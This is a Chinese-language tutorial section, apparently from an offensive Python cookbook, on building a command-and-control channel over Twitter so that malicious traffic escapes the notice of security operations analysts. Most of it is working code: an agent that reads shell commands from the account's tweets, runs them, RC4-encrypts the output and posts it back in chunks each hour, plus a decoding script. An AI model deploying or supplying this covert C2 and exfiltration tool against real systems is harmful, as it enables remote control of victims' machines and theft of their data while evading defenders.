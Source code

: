 # 创建 Twitter C2

在一定程度上，请求互联网上的随机页面是可以接受的，但一旦**安全运营中心**（**SOC**）分析员仔细查看所有消失在管道中的数据，很明显这些请求是发往一个可疑站点，因此很可能与恶意流量相关。幸运的是，社交媒体在这方面提供了帮助，并允许我们将数据隐藏在明处。

我们将创建一个连接到 Twitter 的脚本，读取推文，根据这些推文执行命令，加密响应数据，并将其发布到 Twitter。我们还将创建一个解码脚本。

## 入门

为此，您需要一个带有 API 密钥的 Twitter 帐户。

## 如何做…

我们将使用的脚本如下：

```py
from twitter import *
import os
from Crypto.Cipher import ARC4
import subprocess
import time

token = ''
token_key = ''
con_secret = ''
con_secret_key = ''
t = Twitter(auth=OAuth(token, token_key, con_secret, con_secret_key))

while 1:
  user = t.statuses.user_timeline()
  command = user[0]["text"].encode('utf-8')
  key = user[1]["text"].encode('hex')
  enc = ARC4.new(key)
  response = subprocess.check_output(command.split())

  enres = enc.encrypt(response).encode("base64")

  for i in xrange(0, len(enres), 140):
          t.statuses.update(status=enres[i:i+140])
  time.sleep(3600)
```

解码脚本如下：

```py
from Crypto.Cipher import ARC4
key = "".encode("hex")
response = ""
enc = ARC4.new(key)
response = response.decode("base64")
print enc.decrypt(response)
```
